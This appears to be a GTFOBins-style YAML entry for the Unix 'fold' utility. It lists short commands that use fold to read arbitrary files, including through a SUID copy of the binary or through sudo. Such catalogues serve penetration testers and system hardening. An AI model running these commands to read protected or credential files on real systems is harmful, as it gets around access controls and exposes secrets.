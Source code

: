 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        fold -w99999999 "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./fold -w99999999 "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo fold -w99999999 "$LFILE"
---
```

